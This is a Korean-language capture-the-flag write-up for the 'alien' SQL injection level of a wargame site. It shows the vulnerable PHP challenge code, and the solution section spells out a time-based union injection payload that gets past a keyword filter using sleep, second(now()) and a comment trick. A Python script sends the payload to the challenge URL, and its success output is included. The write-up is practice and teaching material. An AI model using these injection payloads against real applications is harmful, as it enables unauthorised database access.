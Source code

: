 # alien

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/admin|and|or|if|coalesce|case|_|\.|prob|time/i', $_GET['no'])) exit("No Hack ~_~");
  $query = "select id from prob_alien where no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $query2 = "select id from prob_alien where no='{$_GET[no]}'";
  echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
  if($_GET['no']){
    $r = mysqli_fetch_array(mysqli_query($db,$query));
    if($r['id'] !== "admin") exit("sandbox1");
    $r = mysqli_fetch_array(mysqli_query($db,$query));
    if($r['id'] === "admin") exit("sandbox2");
    $r = mysqli_fetch_array(mysqli_query($db,$query2));
    if($r['id'] === "admin") exit("sandbox");
    $r = mysqli_fetch_array(mysqli_query($db,$query2));
    if($r['id'] === "admin") solve("alien");
  }
  highlight_file(__FILE__);
?>
```

## 2. Condition
- `admin and or if coalesce case _ . prob time`을 필터링 한다.   
- GET 파라미터 `no`를 받고, small qoutes차이가 있는 두 가지의 쿼리를 생성한다.   
- 쿼리를 총 4번 실행시킨다. 아래는 각 단계별 통과조건이다.   
    1. 결과값이 'admin'이어야 한다.   
    2. 결과값이 'admin'이 아니어야 한다.   
    3. 결과값이 'admin'이 아니어야 한다.   
    4. 결과값이 'admin'이어야 한다.   


## 3. Solution   

크게 두 가지의 기술만 안다면 쉽게 해결 할 수 있다.   
이말은 즉, 위 4가지 단계를 크게 두 가지 조건으로 나눌 수 있다는 뜻이다.   

단계 | 결과값 | 작은 따옴표
---|---|---
1 | `admin` | X
2 | not`admin` | X
3 | not`admin` | O
4 | `admin` | O




#### 결과를 구분한 방법   

`sleep`, `concat`, `second` 그리고 `now`함수를 이용하였다.   
쿼리속에 `sleep`함수를 넣어놓는다면, 단계별로 실행되는 시간에 delay가 발생할 것이고, 이를 이용하였다.    

구체적인 쿼리문과 원리는 다음과 같다.   
```sql
1 union select concat(char(((777-second(now())) div 3) + 65 - sleep(3)),"dmin")
```

1. 파이썬 스크립트를 이용하여, 현재 초(second)와 97('a'의 ascii값)을 더한값을 위 쿼리 속 `777`부분에 입력한다.   
2. sql 쿼리가 실행되면, 위 연산값과 현재 초(second(now()))를 빼며 97을 유도한다.   
3. char 함수 속 `div 3`와 `+ 65`는 오차범위를 주기 위해 추가한 부분이다.   
4. sleep(3)을 거치며 3초의 지연시간을 준다.   
5. 결과적으로 concat함수에 의해 문자열 admin이 완성된다.   
&rarr; 다음 쿼리에서는 3초만큼의 시간이 흐른 후 실행되기에, 1번의 값과 second(now())연산 시 97이 나오지 않는다.   



#### 작은 따옴표 구분한 방법

주석 `#`을 이용하여 구분하였다.   

쿼리와 함께 살펴보자.   
```sql
1 union select concat(char(((777-second(now())) div 3) + 65 - sleep(3)),"dmin")#' union select concat(char(((777-second(now())) div 3) + 65 - sleep(3)),"dmin")#
```

만일 query1 처럼 single qoute가 없다면, 위 쿼리속 첫 `#`에 의해 뒤부분이 주석처리 될 것이다.   
만일 query2 처럼 single qoute가 있다면, 첫 `#`는 문자처리가 되고, 그부분까지의 값이 no값으로 들어갈 것이다. 그렇게 되면 뒷 부분이 실행 되는 것이다.   




위 두 방법을 이용하여 최종 python script를 짜보았다.   
```python
import requests
import time

cookie = {'PHPSESSID' : '~~~~'}

url = "https://los.rubiya.kr/chall/alien_91104597bf79b4d893425b65c166d484.php?no=1 union select concat(char(((%d-second(now())) div 3) %%2b 65 - sleep(3)),\"dmin\")%%23' union select concat(char(((%d-second(now())) div 3) %%2b 65 - sleep(3)),\"dmin\")%%23" % (97+(time.localtime(time.time()).tm_sec), 97+9+(time.localtime(time.time()).tm_sec))
res = requests.get(url, cookies=cookie)
print(res.text.split('<span style="color: #0000BB">&lt;?php')[0])
```
추가적으로, 마지막 query2의 결과가 'admin'이어야 하므로, 97에 3초 delay를 3번 지난, 9초를 더해 106을 넣어주었다.   


실행 결과는 다음과 같다.   
```
<hr>query : <strong>select id from prob_alien where no=1 union select concat(char(((128-second(now())) div 3) + 65 - sleep(3)),"dmin")#' union select concat(char(((137-second(now())) div 3) + 65 - sleep(3)),"dmin")#
</strong><hr><br><hr>query2 : <strong>select id from prob_alien where no='1 union select concat(char(((128-second(now())) div 3) + 65 - sleep(3)),"dmin")#' union select concat(char(((137-second(now())) div 3) + 65 -
 sleep(3)),"dmin")#'</strong><hr><br><h2>ALIEN Clear!</h2><img src="https://www.wechall.net/remoteupdate.php?sitename=LordofSQLi&username=ch4n&img=1" alt="http://www.wechall.net" border=0 height=0 /><br><code><span
style="color: #000000">
```

성공적으로 문제가 해결되었다.   